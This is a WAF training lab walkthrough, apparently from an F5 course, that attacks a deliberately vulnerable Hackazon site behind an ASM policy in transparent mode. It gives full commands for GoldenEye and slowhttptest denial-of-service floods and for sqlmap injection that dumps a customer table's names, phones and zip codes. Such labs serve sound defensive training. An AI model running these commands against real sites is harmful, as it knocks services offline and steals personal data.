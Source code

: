 Attack Web App behind transparent ASM policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  ASM policy configured in transparent mode using signature based
       detection

1. Attack via GoldenEye

   a. (Kali) Browse to GoldenEye directory and execute attack.

      i.  # cd /root/Agility/GoldenEye

      ii. # ./goldeneye.py http://hackazon-waf.f5agility.com -d -w 50 -s
          200

   a. Observe impact

      i. Is site available?

   b. (Kali) Stop attack

      i. <Ctrl>+C

2. Attack via SLOWHTTPTEST

   a. (Kali) Browse to slowhttptest directory and execute attack

      i.  # cd /root/Agility/slowhttptest

      ii. # slowhttptest -c 1000 -H -g -o slowloris\_stats\_lab3 -i 10
          -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com -x
          24 -p 3

   b. Observe impact

      i.   Is site available?

      ii.  Review LTM virtual Server statistics

      iii. (Hackazon) Review Server Stats

           1. # top

           2. # free –m

   c. (Kali) Stop Attack

   d. (Optional) Try some other variants of slowhttptest

      i.   # slowhttptest -c 1000 -B -g -o slowloris\_stats\_lab3.1 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Slow body attack

      ii.  # slowhttptest -c 1000 -R -g -o slowloris\_stats\_lab3.2 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Range attack

      iii. # slowhttptest -c 1000 -X -g -o slowloris\_stats\_lab3.3 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Slow read

3. Attack via SQLMap

   a. (Kali) Repeat SQL Injection from previous lab

      i.   # cd /root/Agility/sqlmap

      ii.  # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -- dbs

      iii. # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon --tables

      iv.  # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address --columns

      v.   # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address -C full\_name,phone,zip
           --dump

   b. Observe impact

      i. Is site available?

4. (Optional) Attack via Metasploit

-  Repeat steps in previous Metasploit lab.

-  Don’t forget to update the URL for WAF!
